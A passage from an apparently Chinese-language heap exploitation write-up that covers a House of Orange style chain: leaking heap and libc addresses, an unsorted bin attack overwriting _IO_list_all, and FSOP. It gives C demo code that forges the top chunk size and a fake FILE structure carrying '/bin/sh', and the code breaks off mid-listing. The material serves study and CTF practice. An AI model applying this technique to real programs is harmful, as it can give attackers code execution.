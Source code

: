 
并且此时堆地址和libc地址信息都被泄露了，看到有些博客说必须申请large bin大小的chunk才会出现堆泄露，但这里我声请一个小的chunk也可以实现泄露，暂时存疑。

![](3.png)




**2，Unsorted Bin Attack**

Unsorted Bin Attack的原理不再赘述，其结果是修改任意地址变成一个大数字（这里这个数字就是unsorted bin的地址）。这里这个被修改的是_IO_list_all指针，这里使他指向unsorted bin。

**3，FSOP**

这里\_IO\_list\_all指向unsorted bin的地址。



演示代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int winner ( char *ptr);
int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    p1 = malloc(0x400-16);
    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;
    p2 = malloc(0x1000);
    io_list_all = top[2] + 0x9a8;  //get real addr of io_list_all
    top[3] = io_list_all - 0x10;  //unsorted bin->bk = io_list_all - 0x10
    memcpy( ( char *) top, "/bin/sh\x00", 8); //fake_file->_flags
    top[1] = 0x61;  //fake_size
    FILE *fp = (FILE *) top;  
    fp->_mode = 0; // top+0xc0
    fp->_IO_write_base = (char *) 2; // top+0x20
    fp->_IO_write_ptr = (char *) 3; // top+0x28
```